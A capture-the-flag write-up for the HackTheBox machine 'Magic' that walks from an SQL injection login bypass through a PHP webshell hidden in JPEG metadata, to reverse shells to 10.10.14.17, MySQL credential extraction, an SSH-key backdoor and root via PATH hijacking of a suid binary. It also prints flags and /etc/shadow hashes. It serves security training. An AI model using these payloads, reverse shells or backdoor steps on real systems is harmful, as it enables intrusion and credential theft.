










# Resolution summary

>[!summary]
>- Login page of the target machine is vulnerable to **Authentication Bypassed** caused by a **SQL Injection** in the password field
>- **Weak whitelist validation** allows for **uploading a PHP webshell**, which is used to gain command execution
>- **Hardcoded credentials** inside a php file allows to extract DB contents, leaking a plaintext **password reused** for lateral movement
>- A **suid** binary vulnerable to **relative path hijacking** leads to full system compromise.

## Improved skills

- Skill 1
- Skill 2

## Used tools

- nmap
- gobuster
- msfvenom
- burpsuite
- exiftool

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Magic]
└─$ sudo nmap -p- -sS 10.10.10.185 -oN scans/all-tcp-ports.txt -Pn -v
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 51.30 seconds
           Raw packets sent: 65646 (2.888MB) | Rcvd: 65535 (2.621MB)
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Magic]
└─$ sudo nmap -p22,80 -sT -sV -sC 10.10.10.185 -oN scans/open-tcp-ports.txt -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-21 14:43 EDT
Nmap scan report for 10.10.10.185
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.99 seconds
```

# Enumeration

## Port 80 - HTTP (Apache httpd 2.4.29)


Found a login form:



# Exploitation

## Authentication bypass through SQL Injection

Logged as admin user exploiting a SQL injection vulnerability inside the password field. Because the form did not allowed to insert spaces, to exploit the vulnerability the request was first intercepted using burpsuite, after which it was modified and sent to the server:

```
POST /login.php HTTP/1.1
Host: 10.10.10.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://10.10.10.185
Connection: close
Referer: http://10.10.10.185/login.php
Cookie: PHPSESSID=s8o8go0jmt1fkccauepoarkv0q
Upgrade-Insecure-Requests: 1

username=admin&password=' OR '1'='1' -- -
```



## Insecure File Upload

Webshell: [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php)****





Tried upload a `.jpg.php` file:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ cp ws.php ws.jpg.php
```




Uploaded an image containing a web shell inside its metadata:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ wget https://cdn.dribbble.com/users/1088894/screenshots/2631953/charizard-shot.jpg
--2021-05-21 15:05:20--  https://cdn.dribbble.com/users/1088894/screenshots/2631953/charizard-shot.jpg
Resolving cdn.dribbble.com (cdn.dribbble.com)... 192.229.220.206
Connecting to cdn.dribbble.com (cdn.dribbble.com)|192.229.220.206|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 51744 (51K) [image/jpeg]
Saving to: ‘charizard-shot.jpg’

charizard-shot.jpg           100%[============================================>]  50.53K  --.-KB/s    in 0.009s

2021-05-21 15:05:20 (5.21 MB/s) - ‘charizard-shot.jpg’ saved [51744/51744]

┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ exiftool charizard-shot.jpg -comment='<?php system($_REQUEST["cmd"]); ?>'
    1 image files updated
```





Extracted the uploading path: [http://10.10.10.185/images/uploads/charizard-shot2.jpg](http://10.10.10.185/images/uploads/charizard-shot2.jpg)



Uploaded a `.php.jpg` real image containing a web shell inside its metadata:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ exiftool charizard-shot.jpg | grep -i comment
Comment                         : <?php system($_REQUEST["cmd"]); ?>

┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ cp charizard-shot.jpg charizard-shot.php.jpg
```




Image was bad interpreted, meaning that it was as a PHP file. Proof of this was the fact that it was possible to execute code:


Reverse shell:

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/10099 0>&1
```


```bash
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ nc -lnlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.185] 58596
bash: cannot set terminal process group (1136): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$ whoami && hostname && ifconfig
whoami && hostname && ifconfig
www-data
ubuntu
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.185  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:91a1  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:91a1  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:91:a1  txqueuelen 1000  (Ethernet)
        RX packets 110290  bytes 10770712 (10.7 MB)
        RX errors 0  dropped 18  overruns 0  frame 0
        TX packets 106864  bytes 41574480 (41.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8407  bytes 603848 (603.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8407  bytes 603848 (603.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
		
www-data@ubuntu:/var/www/Magic/images/uploads$ which python
which python
www-data@ubuntu:/var/www/Magic/images/uploads$ which python3
which python3
/usr/bin/python3
www-data@ubuntu:/var/www/Magic/images/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
zsh: suspended  nc -lnlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ stty raw -echo; fg                                     148 ⨯ 1 ⚙

[1]  + continued  nc -lnlvp 10099

www-data@ubuntu:/var/www/Magic/images/uploads$ export TERM=xterm
www-data@ubuntu:/var/www/Magic/images/uploads$ stty rows 60 columns 235
```

# Lateral Movement to user

## Local enumeration

Users:

```bash
www-data@ubuntu:/var/www/Magic/images/uploads$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
mysql:x:122:127:MySQL Server,,,:/nonexistent:/bin/false

www-data@ubuntu:/var/www/Magic/images/uploads$ ls /home/
theseus
```

MySQL credentials:

```php
www-data@ubuntu:/var/www/Magic$ ls
assets  db.php5  images  index.php  login.php  logout.php  upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;
	...
```

>[!important]
>theseus     iamkingtheseus

Enumerated local services:

```bash
www-data@ubuntu:/opt$ netstat -polentau
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name     Timer
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      0          29850      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      122        23982      -                    off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        16885      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          22331      -                    off (0.00/0/0)
tcp        0      2 10.10.10.185:58596      10.10.14.17:10099       ESTABLISHED 33         34750      1962/bash            on (0.25/0/0)
tcp6       0      0 ::1:631                 :::*                    LISTEN      0          29849      -                    off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      0          23600      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      0          22342      -                    off (0.00/0/0)
tcp6       1      0 10.10.10.185:80         10.10.14.17:53828       CLOSE_WAIT  33         36372      -                    keepalive (6270.79/0/0)
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           116        18223      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        16884      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:55753           0.0.0.0:*                           116        18225      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:631             0.0.0.0:*                           0          29195      -                    off (0.00/0/0)
udp6       0      0 :::5353                 :::*                                116        18224      -                    off (0.00/0/0)
udp6       0      0 :::37732                :::*                                116        18226      -                    off (0.00/0/0)
```

### Forwarded MySQL service to attacker machine

Changed SSH listening port and allowed root login:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ sudo nano /etc/ssh/sshd_config
...
Port 80
...
PermitRootLogin yes
...

┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ sudo systemctl start ssh.service
```

Forwarded local port to attacker:

```bash
www-data@ubuntu:/opt$ ssh -R 13306:127.0.0.1:3306 root@10.10.14.17 -p 80
Could not create directory '/var/www/.ssh'.
The authenticity of host '[10.10.14.17]:80 ([10.10.14.17]:80)' can't be established.
ECDSA key fingerprint is SHA256:W/HiMJfhkvZrzvRf/JTsjHh+T/whnx8c20egkn0X03E.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
root@10.10.14.17's password:
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr 19 12:26:30 2021 from 10.10.10.74
...
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ netstat -polentau | grep 13306
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:13306         0.0.0.0:*               LISTEN      0          246053     -                    off (0.00/0/0)
tcp6       0      0 ::1:13306               :::*                    LISTEN      0          246052     -                    off (0.00/0/0)
```

Logged inside MySQL using leaked credentials:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Magic/exploit]
└─$ mysql -h 127.0.0.1 -P 13306 -u theseus -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Extracted login credentials:

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.051 sec)

MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.052 sec)

MySQL [Magic]> show columns FROM login;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int(6)       | NO   | PRI | NULL    | auto_increment |
| username | varchar(50)  | NO   | UNI | NULL    |                |
| password | varchar(100) | NO   |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
3 rows in set (0.051 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.051 sec)
```

>[!important]
>admin     Th3s3usW4sK1ng

## Credentials reuse

Logged to **theseus** reusing credentials found inside mysql database:

```bash
www-data@ubuntu:/opt$ su theseus
Password:
theseus@ubuntu:/opt$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

Backdoored **theseus** registering a custom ssh key inside **.ssh/authorized_keys**:

```bash
theseus@ubuntu:~$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDAtXPtZN+kJ7TjgTIBnQdDQz9S/i417/k+SFrAl8vsUaBpgZrMQ3C6hFUnlLCYx4XTlE3ux/ucakxudjc/0PTjnYJBvUVWqzrrkHyOQ9a4jql3f3VdQjQojYu9QuF7gw2upR10f8vfBK5150AcvlG9Guo/bpiILQBHmVyBz3/0q/CJaiklBoWtfqGUvpCRYMi0A6SlW3ivmPMHqpJOmjw45U+NRCJMt9FwR/MvbpCxafLT2NjNId7sAySYY+zSJsmtKGz5jpLYrgOUUqrT03eRVivn5FcOlRY0SeRZe9q04DPw39PsjnHuzRioz49FnLb/J6HCpEx0BGM3vVhDoMTtWPmRVbKJbZw84RigagcAYnjL9uEhuzjAIqFpH+0HBetQ1ZXGlGQNwAR8FC+bZcnulQWUC5ceYtszHsrjNSwaDBL675thz5TtygxVVov12PyPQCONX5Xep3Ylxj53lNYlVKUbfiMGI3kXxmcsocXubHI7Au+q9FKq8XIoZadangM=' > .ssh/authorized_keys
```

# Privilege Escalation

## Relative Path Hijacking in suid file

Readable files belonging to root, readable by me but not world readable having suid bit set:

```bash
theseus@ubuntu:/usr/bin$ find / -perm -u=s -type f 2>/dev/null -exec ls -ld {} \; | grep users
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

Possible PoC: [https://labs.f-secure.com/assets/BlogFiles/magnicomp-sysinfo-setuid-advisory-2016-09-22.pdf](https://labs.f-secure.com/assets/BlogFiles/magnicomp-sysinfo-setuid-advisory-2016-09-22.pdf)

Running the binary it was noticed that it ran different system commands:

```bash
theseus@ubuntu:~$ /bin/sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
/0/1                           processor  AMD EPYC 7401P 24-Core Processor
/0/1/0                         memory     16KiB L1 cache
/0/1/1                         memory     16KiB L1 cache
/0/1/2                         memory     512KiB L2 cache
...
====================Disk Info====================
PING 10.10.14.17 (10.10.14.17) 56(84) bytes of data.
64 bytes from 10.10.14.17: icmp_seq=1 ttl=63 time=52.7 ms

--- 10.10.14.17 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 52.797/52.797/52.797/0.000 ms

====================CPU Info====================
processor       : 0
vendor_id       : AuthenticAMD
...
====================MEM Usage=====================
              total        used        free      shared  buff/cache   available
Mem:           3.8G        573M        1.8G        4.0M        1.5G        3.0G
Swap:          947M          0B        947M
```

Decompiling the binary with `strings` it was discovered that the it was not using full path to running commands, being vulnerable to relative paths hijacking:

```bash
theseus@ubuntu:~$ strings /bin/sysinfo | less
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
...
```

To exploit the vulnerability a malicious binary was created inside the **/tmp** folder, it was named as one of the vulnerable command and it was added before the legitimate one inside the PATH env variable:

```bash
theseus@ubuntu:~$ nano /tmp/fdisk
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/10099 0>&1

theseus@ubuntu:~$ export PATH=/tmp:$PATH
```

```bash
theseus@ubuntu:~$ /bin/sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
/0/1                           processor  AMD EPYC 7401P 24-Core Processor
/0/1/0                         memory     16KiB L1 cache
/0/1/1                         memory     16KiB L1 cache
/0/1/2                         memory     512KiB L2 cache
/0/1/3                         memory     512KiB L2 cache
/0/2                           processor  AMD EPYC 7401P 24-Core Processor
/0/28                          memory     System Memory
/0/28/0                        memory     4GiB DIMM DRAM EDO
...

====================Disk Info====================
```

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Magic]
└─$ nc -lnlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.185] 58620
root@ubuntu:~# whoami && hostname && cat /root/root.txt && ifconfig
whoami && hostname && cat /root/root.txt && ifconfig
root
ubuntu
1c22929cfd879be3dd08c8c86f954476
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.185  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:91a1  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:91a1  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:91:a1  txqueuelen 1000  (Ethernet)
        RX packets 119113  bytes 11869762 (11.8 MB)
        RX errors 0  dropped 18  overruns 0  frame 0
        TX packets 112301  bytes 44314224 (44.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 21688  bytes 1548473 (1.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 21688  bytes 1548473 (1.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# Trophy

>[!quote]
>Any sufficiently advanced technology is indistinguishable from magic.
>
>\- Arthur C. Clarke

>[!success]
>**User.txt**
>1c7c1a4284016977a585100c34d6c34f

>[!success]
>**Root.txt**
>1c22929cfd879be3dd08c8c86f954476

**/etc/shadow**

```bash
root@ubuntu:~# cat /etc/shadow | grep '\$'
cat /etc/shadow | grep '\$'
root:$6$P9JXkqrh$tQfL.bHaQQmi7tBxwKp2wdSTB0D19Q.PHM.8tdLanqBEs70cKzul4SEY0PqfbxVkUv7bR5wrKYXJlb0p69c42.:18184:0:99999:7:::
theseus:$1$midwGUS.$UlOhht/xpDAJhCFfcpSyO0:18184:0:99999:7:::
```